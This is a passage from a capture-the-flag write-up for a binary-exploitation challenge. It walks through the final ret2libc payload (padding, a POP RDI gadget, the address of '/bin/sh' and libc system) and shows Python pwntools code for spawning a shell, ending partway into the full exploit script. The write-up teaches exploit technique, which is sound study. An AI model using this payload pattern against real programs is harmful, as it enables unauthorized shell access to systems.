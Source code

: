 Now we just have to craft our last payload to get our shell. The final payload will be: `PADDING + POP_RDI + <address of "/bin/sh" string> + <address of libc.system>` 

To get the address of ``/bin/sh\x00`` we can use pwntools utilities ``next(libc.search(b'/bin/sh\x00'))`` or through the terminal

```bash
❯ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 19604f /bin/sh
```

The string will be in `libc.address + 0x19604f` 

```python
def shell():
    buf = b'A' * PADDING
    buf += flat(POP_RDI) + flat(next(libc.search(b'/bin/sh\x00')))
    buf += flat(libc.sym.system)
    io.send(buf)
    print("[!] Shell! \n")
```

After sending this last payload we have a shell and we can read the flag.

![Untitled](images/kebab-amigo-2/Untitled%202.png)

## Full Script

---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'chall', checksec = False)
gadgets = ROP(exe)
context.log_level = "warning"
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

```